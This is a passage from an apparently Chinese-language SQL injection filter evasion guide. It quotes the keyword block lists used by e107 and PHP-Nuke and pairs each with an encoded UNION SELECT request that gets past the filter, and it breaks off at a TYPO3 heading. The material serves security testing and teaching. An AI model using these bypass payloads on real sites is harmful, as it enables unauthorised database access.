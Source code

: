 0x04 延伸及测试向量示例
--------------

* * *

```
a) CMS绕过实例
b) WAF绕过示例
c) SQLi Filter Evasion Cheat sheet
d) 测试向量

```

### a) Web应用绕过示例

#### 1. e107 CMS

```
$inArray = array("'", ";", "/**/", "/UNION/", "/SELECT/", "AS "); 
if (strpos($_SERVER['PHP_SELF'], "trackback") === false) { 
foreach($inArray as $res) { 
if(stristr($_SERVER['QUERY_STRING'], $res)) { 
die("Access denied."); 
}}}

```

Bypass:

```
vuln.php/trackback?inject=UNI%6fN SELECT

```

#### 2. PHP-Nuke CMS

```
if(isset($_SERVER['QUERY_STRING']) 
&& (!stripos($_SERVER['QUERY_STRING'], "ad_click"))) { 
$queryString = $_SERVER['QUERY_STRING']; 
if ( stripos($queryString, '%20union%20') 
OR stripos($queryString, '/*') 
OR stripos($queryString, '*/union/*') 
OR stripos($queryString, '+union+') 
OR stripos($queryString, 'concat')) { die('Illegal Operation'); }

```

Bypass:

```
vuln.php?inject=%a0UNI%6fN(SELECT'ad_click'

```

#### 3. TYPO3 CMS
